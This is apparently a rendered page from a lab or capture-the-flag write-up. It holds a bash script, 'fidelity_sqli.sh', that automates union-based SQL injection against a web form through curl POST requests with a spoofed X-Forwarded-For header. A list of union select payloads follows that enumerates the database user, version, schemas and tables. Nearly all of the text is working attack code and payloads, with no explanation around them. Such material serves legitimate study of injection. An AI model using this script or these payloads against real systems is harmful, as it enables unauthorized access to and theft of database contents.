 ```bash
turquoiseColour="\e[0;36m\033[1m"
grayColour="\e[0;37m\033[1m]"

function makeInjection(){
  myInjection="$1"
  curl -s -X POST $sqli_url -H "X-Forwarded-For: 192.168.4.28" -d "productName=$myInjection" | awk '/<tbody>/,/<\/tbody>/' | html2text | awk NR==3
}

function makeInteractive(){
  while [ "$myInputInjection" != "exit" ]; do
    echo -ne "${redColour}[~]${endColour}${yellowColour} Injection ->${endColour} " && read -r myInputInjection
    echo; curl -s -X POST $sqli_url -H "X-Forwarded-For: 192.168.4.28" -d "productName=$myInputInjection" | awk '/<tbody>/,/<\/tbody>/' | html2text
  done    
}

function helpPanel(){
  echo -e "\n${yellowcolour}[+]${endcolor}${graycolour} use:${endcolour}\n"
  echo -e "\t${turquoiseColour}q)${endColor}${yellowColour} Injection to probe ${endColour}${purpleColour}[${endColour}${blueColour}Example: -q \"${endColour}${greenColour}' union select 1,2,3,4,5,6-- -${endColour}${blueColour}\"${endColour}${purpleColour}]${endColour}"
  echo -e "\t${turquoiseColour}i)${endColor}${yellowColour} Interactive Mode${endColour}"
  echo -e "\t${turquoiseColour}h)${endColor}${yellowColour} Show this help panel${endColour}"
  exit 1
}

declare -i parameter_counter=0; while getopts "q:ih" arg; do
  case $arg in
    q) myInjection=$OPTARG; let parameter_counter+=1;;
    i) let parameter_counter+=2;;
    h) helpPanel;;
  esac
done

# ./fidelity_sqli.sh -q "' union select 1,2,3,4,5,6-- -"

if [ $parameter_counter -eq 1 ]; then
  makeInjection "$myInjection"
elif [ $parameter_counter -eq 2 ]; then
  makeInteractive
else
  helpPanel
fi
```

```bash
./fidelity_sqli.sh -i
# ' union select 1,2,3,4,5,6-- -
# ' union select 1,2,user(),4,5,6-- -
# ' union select 1,2,database(),4,5,6-- -
# ' union select 1,2,version(),4,5,6-- -

# ' union select 1,2,schema_name,4,5,6 from information_schema.schemata-- -
# ' union select 1,2,schema_name,4,5,6 from information_schema.schemata limit 0,1-- -
# ' union select 1,2,schema_name,4,5,6 from information_schema.schemata limit 1,1-- -
# ' union select 1,2,schema_name,4,5,6 from information_schema.schemata limit 2,1-- -
# ' union select 1,2,schema_name,4,5,6 from information_schema.schemata limit 3,1-- -
# ' union select 1,2,group_concat(schema_name),4,5,6 from information_schema.schemata-- -
# ' union select 1,2,group_concat(table_name),4,5,6 from information_schema.tables where table_schema="warehouse"-- -
# ' union select 1,2,group_concat(table_name),4,5,6 from information_schema.tables where table_schema="mysql"-- -
```